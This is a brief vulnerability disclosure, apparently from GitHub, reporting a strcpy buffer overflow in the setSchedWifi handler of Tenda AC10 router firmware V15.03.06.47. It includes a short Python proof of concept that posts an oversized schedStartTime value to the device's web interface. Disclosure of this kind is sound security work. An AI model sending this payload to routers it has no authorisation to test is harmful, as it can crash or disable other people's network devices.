


# buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/setSchedWifi

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:




get value from schedStartTime ,and set enable = schedWifiEnable = 0



as follow we set, get into line 73, call strcpy, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/setSchedWifi"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'schedStartTime': payload, 'schedWifiEnable': 0})
``` 
